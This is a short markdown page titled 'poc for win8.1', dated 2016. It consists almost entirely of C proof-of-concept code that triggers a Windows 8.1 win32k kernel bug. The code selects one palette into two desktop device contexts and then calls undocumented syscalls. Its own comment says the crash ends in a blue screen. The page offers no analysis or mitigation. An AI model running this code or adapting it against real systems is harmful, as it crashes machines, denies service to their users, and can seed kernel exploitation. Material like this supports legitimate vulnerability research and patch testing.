

# poc for win8.1


```c
/*
********************************************************************
 Created:	2016-06-21 13:02:19
 Filename: 	main.c
 Author:	root@tinysec.net
 Version	0.0.0.1
 Purpose:	main of poc
*********************************************************************
*/

#include <windows.h>
#include <stdio.h>
#include <stdlib.h>

#pragma comment(lib,"ntdll.lib")


HPALETTE __stdcall NtUserSelectPalette(__in HDC hDC , __in HPALETTE hPalette , __in BOOL bForceBackground);

BOOL __stdcall NtGdiUnrealizeObject(__in HGDIOBJ hObject);
BOOL __stdcall NtGdiMakeObjectXferable(__in HGDIOBJ hObject , __in ULONG nProcessId);


int Poc()
{
	HWND hWnd = NULL;
	HDC hDC1 = NULL;
	HDC hDC2 = NULL;

	HPALETTE hPalette = NULL;

	HPALETTE hOldPalette1 = NULL;
	HPALETTE hOldPalette2 = NULL;

	LOGPALETTE* pLogPalette = NULL;
	PALETTEENTRY* pEntry = NULL;
	USHORT nEntryIndex = 0;

	ULONG nRoutineIndex = 0; 

	do 
	{
		hWnd = GetDesktopWindow();

		hDC1 = GetDCEx(hWnd , NULL , DCX_WINDOW);
		hDC2 = GetDCEx(hWnd , NULL , DCX_WINDOW);


		pLogPalette = (LOGPALETTE*)malloc( sizeof(LOGPALETTE) + 1 *  sizeof(PALETTEENTRY) );
		if ( NULL == pLogPalette )
		{
			break;
		}

		pLogPalette->palVersion = 0x300;
		pLogPalette->palNumEntries = 1;

		pEntry = pLogPalette->palPalEntry;
			
		pEntry->peRed = (UCHAR)0xAA;
		pEntry->peGreen = (UCHAR)0xAA;
		pEntry->peBlue = (UCHAR)0xAA;
		pEntry->peFlags = (UCHAR)0xAA;
		

		hPalette = CreatePalette( pLogPalette);
		
		hOldPalette1 = NtUserSelectPalette( hDC1 , hPalette , TRUE );
		hOldPalette2 = NtUserSelectPalette( hDC2 , hPalette , TRUE );

		NtGdiUnrealizeObject( hDC1 );
		NtGdiMakeObjectXferable( hDC1 , 0 );
		
		NtUserSelectPalette( hDC1 , hOldPalette1 , TRUE );
		NtUserSelectPalette( hDC2 , hOldPalette2 , TRUE );
	
		// can't reach here , due to BSOD
	
	} while (FALSE);

	if ( NULL != pLogPalette )
	{
		free(pLogPalette);	
		pLogPalette = NULL;
	}

	return 0;
}

int __cdecl wmain(int nArgc, WCHAR** Argv)
{

	do 
	{
		Poc();
	
	} while (FALSE);
	
	return 0;
}

```

